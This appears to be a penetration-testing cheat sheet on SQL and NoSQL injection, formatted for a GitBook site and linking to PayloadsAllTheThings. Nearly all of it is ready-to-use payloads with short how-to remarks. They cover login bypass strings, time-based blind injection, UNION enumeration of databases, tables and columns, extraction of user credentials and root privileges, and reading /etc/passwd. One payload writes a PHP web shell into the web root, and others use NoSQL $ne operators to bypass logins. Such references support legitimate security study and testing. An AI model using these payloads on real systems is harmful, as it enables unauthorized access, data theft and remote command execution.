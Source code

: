 ```yaml
---
icon: syringe
---
```


# SQLi

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
PayloadsAllTheThings
{% endembed %}

## <mark style="color:orange;">`MySQL`</mark>

{% hint style="info" %}
### <mark style="color:green;">`Python`</mark>&#x20;

* <mark style="color:purple;">**Doesn't need**</mark>**&#x20;**<mark style="color:orange;">**`;`**</mark>**&#x20;**<mark style="color:purple;">**at the end.**</mark>

***

### <mark style="color:orange;">`PHP`</mark>&#x20;

### <mark style="color:purple;">Authentication Methods:</mark>

1. <mark style="color:red;">**`Querying for matching username and password`**</mark><mark style="color:purple;">:</mark>
   * <mark style="color:purple;">This method involves running an SQL query that looks for rows where both the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**username**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**password (or password hash)**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">match the user's input.</mark>
   * <mark style="color:purple;">If any rows are returned (meaning a match is found), the user is allowed to log in.</mark>
2. <mark style="color:red;">**`Ensuring exactly one result`**</mark><mark style="color:purple;">:</mark>
   * <mark style="color:purple;">The query looks for matching</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**username**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**password**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">(or hash), but it only allows login if</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**exactly one result**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">is returned.</mark>
3. <mark style="color:red;">**`Querying based on username, then checking the password hash separately`**</mark><mark style="color:purple;">:</mark>
   * <mark style="color:purple;">Query the database based</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**only on the username**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">(without initially checking the password) and retrieving the user's</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**password hash**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">from the database.</mark>
   * <mark style="color:purple;">Once the username is found, the password hash is compared to the one entered by the user.</mark>
{% endhint %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}
Auth Bypass
{% endembed %}

***

{% hint style="info" %}
### <mark style="color:purple;">Recon</mark>

* <mark style="color:purple;">**Always test both**</mark>**&#x20;**<mark style="color:orange;">**`"`**</mark>**&#x20;**<mark style="color:purple;">**and**</mark>**&#x20;**<mark style="color:orange;">**`'`**</mark>&#x20;
* <mark style="color:purple;">Bypass authentication by making the condition always true, followed by a comment to ignore the rest of the query.</mark>

```sql
' or 1=1-- -
```

* <mark style="color:purple;">If the previous query doesn't work try to exploits string comparison without breaking the query structure:</mark>

```sql
" or "1"="1
```

* <mark style="color:purple;">Sometimes the password field may appear before the username. To determine the structure, use brackets:</mark>

```sql
"))--
```

* <mark style="color:purple;">If it's not possible to see the response from the query there could be still a</mark> <mark style="color:orange;">**`BLIND`**</mark> <mark style="color:purple;">injection:</mark>

```sql
' OR SLEEP(5) -- 
```

* Is possible to bypass  **`email input fields`** restrictions by using **`concat`:**

```sql
// Some code
```

### <mark style="color:purple;">Union</mark>

* <mark style="color:purple;">Find the number of columns:</mark>

```sql
' order by 1-- -
```

```sql
' order by 1,2-- -
```

* <mark style="color:purple;">Detect the number of column using</mark> <mark style="color:orange;">**`Union`**</mark><mark style="color:purple;">:</mark>

```sql
' union select 1-- -
```

```sql
' union select 1,2-- -
```

```sql
' union select 1,2,3-- -
```

```sql
' union select 1,2,3,4-- -
```

* <mark style="color:purple;">Once you know the number of columns:</mark>

{% code title="Current database" %}
```sql
' union select 1,2,3,database()--
```
{% endcode %}

{% code title="Database version" %}
```sql
' UNION select 1,@@version,3,4-- -
```
{% endcode %}

{% code title="Current User" %}
```sql
' UNION SELECT 1,user(),3,4-- -
```
{% endcode %}

{% code title="Concatenation" overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

#### <mark style="color:orange;">`Information_schema`</mark>

* <mark style="color:purple;">If you want to know how many databases there are:</mark>

{% code title="Information Schema" overflow="wrap" %}
```sql
' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -
```
{% endcode %}

* <mark style="color:purple;">To look how many tables in a database:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'database'-- -
```
{% endcode %}

* <mark style="color:purple;">To look how many columns in a table:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_name = 'table'-- -
```
{% endcode %}

* <mark style="color:purple;">To look the content of the columns:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

### <mark style="color:purple;">Privileges</mark>

{% code title="Checks admin privileges" overflow="wrap" %}
```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
{% endcode %}

{% code title=" Extracting privilege details of the root user" overflow="wrap" %}
```sql
' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
{% endcode %}

{% code title="Find which directories can be accessed" overflow="wrap" %}
```sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
{% endcode %}

### <mark style="color:purple;">File Injection</mark>

{% code title="Read local file" overflow="wrap" %}
```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
{% endcode %}

{% code title="Write a string to a local file" overflow="wrap" %}
```sql
`select 'file written successfully!' into outfile '/var/www/html/proof.txt
```
{% endcode %}

{% code title="Creates a webshell" overflow="wrap" %}
```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Blind</mark>

* <mark style="color:purple;">Ask questions to application; this query asks if there is any user starting by</mark> <mark style="color:orange;">**`a`**</mark><mark style="color:purple;">:</mark>

```sql
UNION select user,2,3 from mysql.user where user like 'a%'-- -
```
{% endhint %}

***

## <mark style="color:orange;">`NoSQL`</mark>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass" %}
PayloadAllThings
{% endembed %}

{% hint style="info" %}
### <mark style="color:purple;">Login Bypass</mark>

* <mark style="color:purple;">With</mark> <mark style="color:orange;">**`Content-Type: application/x-www-form-urlencoded`**</mark> <mark style="color:purple;">try:</mark>

```json
user=admin&password[$ne]=wrongpassword
```

* <mark style="color:purple;">Set the</mark> <mark style="color:orange;">**`Content-Type`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`application/json`**</mark> <mark style="color:purple;">on the</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">request</mark>

```json
{"user": "admin", "password": {"$ne": "wrongpassword"}}
```
{% endhint %}

